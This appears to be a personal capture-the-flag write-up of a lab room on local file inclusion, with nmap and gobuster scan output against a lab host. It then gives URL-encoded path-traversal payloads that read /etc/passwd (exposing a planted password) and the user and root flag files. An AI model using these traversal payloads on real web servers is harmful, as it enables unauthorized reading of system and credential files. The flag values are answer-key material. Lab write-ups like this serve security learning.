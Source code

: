 #+TITLE: LFI
- what is lfi
  - An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). Typically, LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.

* nmap
- results
  - 2 ports open
  - ssh on usual port
  - http on usual port
  - ubuntu machine

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.57.130
Starting Nmap 7.91 ( https://nmap.org  ) at 2020-11-11 13:03 GMT
Nmap scan report for 10.10.57.130
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds

#+end_src

* gobuster
- it discovers nothing

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # gobuster dir -u 10.10.57.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o go.scan
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.57.130
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/11 13:04:48 Starting gobuster
===============================================================
Progress: 17350 / 87665 (19.79%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/11 13:11:29 Finished
===============================================================

#+end_src

* usernames

- after digging with zap we not only find a username but we get an exploit
  : falconfeast

* vulnerability

- local file inclusion
  : http://10.10.57.130/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

- contents of /etc/passwd
  : root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false

* exploit
- http://10.10.88.214/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Ffalconfeast%2Fuser.txt
  - user.txt
    : 60989655118397345799

- http://10.10.88.214/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Froot%2Froot.txt
  - root.txt
    : 42964104845495153909
